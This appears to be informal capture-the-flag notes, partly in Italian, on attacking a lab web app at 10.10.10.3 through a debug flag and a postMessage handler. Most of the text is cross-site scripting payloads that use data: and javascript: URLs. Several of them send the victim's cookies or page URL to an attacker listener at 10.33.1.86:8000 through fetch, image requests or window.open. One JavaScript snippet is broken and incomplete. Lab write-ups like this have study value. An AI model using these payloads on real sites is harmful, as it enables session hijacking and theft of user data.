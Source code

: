 # B/W


Ip `10.10.10.3`

open port 80

# Available directory

admin
assets


# Simil payload

Query param debug=true enabled an event handler of message.

We can send a payload that will be encoded e passed as event ed inserted in a div

```js
payload   = ;

window.postMessage([...''].map(i => String.fromCharCode(i.charCodeAt(0) - 3)).map(i=>String(i)), 'http://10.10.10.3')
```

In `feat.js` the code will render the payload but... why 


#PAYLOAD

`data:text/html;charset=utf-8,<script>fetch('http://10.33.1.86:8000/index.php', {method:'post',body:document.cookie}).then(res=>res.text()).then(console.info).catch(console.error)</script>`


## tring with postMessage

`data:text/html;charset=utf-8,<script>window.postMessage(document.cookie)</script>`


- https://samy.blog/element.innerhtml-and-xss-payloads/
- https://github.com/payloadbox/xss-payload-list

data:text/html;charset=utf-8,<script>document.write('&lt;script>alert(document.domain)</scr'+'ipt&gt;')</script>

`http://10.10.10.3/?debug=true&url=data%3Atext/html%3Bcharset%3Dutf-8%2C<img%20src%3D"x"%20onerror%3D"window.location.href%3D%27http%3A//10.33.1.86%3A8000%3Fd%3D%27%2Bwindow.location.href">`

```
<script>document.write('<img+src%3D\"http%3A%2F%2F10.33.1.86%3A8000%2F%3Fc%3D'%2BencodeURIComponent(document.cookie)%2B'\">')<%2Fscript>
```

```
http://10.10.10.3/?debug=true&url=data%3Atext%2Fhtml%3Bcharset%3Dutf-8%2C%27%3Cimg%2Bsrc%3Dx%2Bonerror%3D%22window.open%28%27http%3A%2F%2F10.33.1.86%3A8000%2F%3Fc%3D%27%2Bdocument.cookie%29%22%3E
```

Il definitivo:
`http://10.10.10.3/?url=javascriptjavascript:window.open(%27http://10.33.1.86:8000/%27%2bdocument.domain)`

